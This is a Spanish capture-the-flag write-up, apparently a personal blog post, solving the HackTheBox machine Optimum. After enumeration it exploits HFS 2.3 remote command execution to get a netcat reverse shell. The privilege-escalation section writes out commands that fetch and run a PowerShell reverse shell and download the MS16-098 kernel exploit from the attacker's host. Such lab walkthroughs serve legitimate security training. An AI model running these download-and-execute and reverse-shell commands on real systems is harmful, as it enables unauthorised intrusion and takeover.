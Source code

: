 ```yaml
---
layout: single
title: HackTheBox - Máquina Optimum
excerpt: "Solución de la máquina Optimum de Hack the Box."
date: 2021-05-03
classes: wide
header:
  teaser: /assets/images/htb/optimum/optimum.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/optimum/optimum.png">
</p>

# Estructura final de directorios.

```bash
.
├── content
├── exploits
│   └── 49584.py
├── nmap
│   ├── allPorts
│   └── targeted
└── scripts

4 directories, 3 files
```

# Enumeración

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.8 -oG allPorts
```

```bash
nmap -sC -sV -p80 10.10.10.8 -oN targeted
```

En el escaneo más especifico solo vemos un puerto abierto:

```text
80/tcp open  http    HttpFileServer httpd 2.3
```

*Whatweb:*
```bash
whatweb http://10.10.10.8

http://10.10.10.8 [200 OK] Cookies[HFS_SID], Country[RESERVED][ZZ], HTTPServer[HFS 2.3], HttpFileServer, IP[10.10.10.8], JQuery[1.4.4], Script[text/javascript], Title[HFS /]
```

# Explotación

Vamos a buscar alguna vulnerabilidad en searchsploit del HttpFileServer 2.3.

```bash
searchsploit HFS 2.3
```

```text
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
 Exploit Title                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                    | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                    | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                 | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                            | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                            | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                       | windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- 

```

Por lo que vamos a usar el script `39161.py`, estando en el directorio `exploits` lo copiamos mediante `searchsploit -m 39161`. 

Para ello en el script nos dice que tenemos que tener compartido el ejecutable de netcat, por ello hacemos un `locate nc.exe` y copiamos `/usr/share/windows-resources/binaries/nc.exe` a nuestro directorio `content`. Levantamos un servidor `python3 -m http.server 80` (Necesitamos permisos de root)

Editamos el script para añadir nuestra ip y nuestro puerto local, ejecutamos la primera vez el exploit `python2.7 39161.py 10.10.10.8 80` para hacer uso del netcat y la segunda vez nos creara la reverse shell, para ellos previamente nos ponemos a la escucha en el puerto que hayamos puesto en el script y finalmente ya estamos dentro de la máquina con el usuario `optimum\kostas`.

# Escalada de Privilegios

Una vez que estamos dentro de la máquina nos vamos a pasar a una powershell para ello vamos a usar [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), editamos el script para añadir al final la siguiente línea:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.XX.XX -Port 4444
```

Nos ponemos en escucha por el puerto 4444 y desde la máquina víctima ejecutamos:

```bash
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17:8000/IP.ps1')
```

Con lo que obtenemos una powershell, para saber si estamos en una máquina de x64 bits y el proceso corresponde a la arquitectura lanzamos:

```bash
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```

Y el resultado será:

```bash
[environment]::Is64BitOperatingSystem
True
[environment]::Is64BitProcess
True
PS C:\Users\kostas\Desktop> 
```

Para la escalada de privilegios usamos [Windows Exploit Suggester](https://github.com/bitsadmin/wesng) para utilizarlo necesitamos obtener la información del sistema mediante `systeminfo`, lo copiamos y lo guardamos en el directorio content.

Para obtener los máximos privilegios vamos a utilizar [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe), nos los descargamos en la máquina local y lo compartimos mediante un servidor en python.

Para descargarlo en la máquina víctima usamos alguna de estas formas:

```bash
certutil.exe -f -urlcache -split http://10.10.XX.XX:8000/bfill.exe bfill.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.XX.XX:8000/bfill.exe', 'C:\Users\kostas\Desktop\bfill.exe')"

powershell Invoke-WebRequest "http://10.10.XX.X:8000/bfill.exe" -OutFile "C:\Users\kostas\Desktop\bfill.exe"
```

Al ejecutarlo tenemos permisos de `NT AUTHORITY\SYSTEM` y ya se puede ver la flag de root.